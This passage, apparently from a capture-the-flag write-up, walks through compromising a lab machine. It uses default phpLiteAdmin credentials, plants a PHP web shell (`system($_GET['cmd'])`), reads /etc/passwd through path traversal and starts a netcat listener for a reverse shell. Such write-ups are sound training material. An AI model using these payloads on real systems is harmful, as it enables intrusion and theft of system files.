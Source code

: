 
### phpLiteAdmin Access

The `/dbadmin` directory looked interesting. Navigating to `http://192.168.1.23/dbadmin/` revealed a phpLiteAdmin login page.

I attempted to log in using the default credentials "admin" for both username and password, which was successful.

### Exploiting phpLiteAdmin

I explored the phpLiteAdmin interface and found a way to execute PHP code.

<img width="1123" height="620" alt="image" src="https://github.com/user-attachments/assets/e7be473f-28aa-423f-acb7-3788518de955" />

This screenshot shows the phpLiteAdmin v1.9.3 interface, displaying the `test_users` database with `root` and `zico` entries, including their hashed passwords. This indicates successful access to the database.

I created a new database named `hack.php`. Then, I created a table named `test` within this database and inserted a text field with the default value:

```php
<?php system($_GET["cmd"]); ?>
```

<img width="1311" height="459" alt="image" src="https://github.com/user-attachments/assets/7838ba9d-a400-428f-875b-04a17584eb85" />


This screenshot shows the phpLiteAdmin interface confirming that `Table 'test' has been created` within the `/usr/databases/hack.php` database. The `CREATE TABLE` statement includes the PHP code `<?php system($_GET["cmd"]); ?>` as a default value, which will allow for command execution.

This allowed me to execute arbitrary commands via the `cmd` parameter in the URL. For example, I could view `/etc/passwd` using Local File Inclusion (LFI):

<img width="1337" height="224" alt="image" src="https://github.com/user-attachments/assets/91c0c03a-a03c-4173-9590-3c8057c17689" />


This screenshot shows the browser displaying the content of `/etc/passwd` after navigating to `zico.local/view.php?page=../../../../etc/passwd`, demonstrating a successful Local File Inclusion vulnerability.

I also gathered information about the PHP version:

<img width="1191" height="677" alt="image" src="https://github.com/user-attachments/assets/aa152462-0d95-404a-8241-d864e70fc175" />


This screenshot displays the PHP Version 5.3.10-1ubuntu3.26 information page, showing details like the system, build date, server API, and loaded configuration files.

### Reverse Shell

I set up a `netcat` listener on my attacking machine (Kali Linux) on port 4444:

```shellscript
nc -lnvp 4444
```

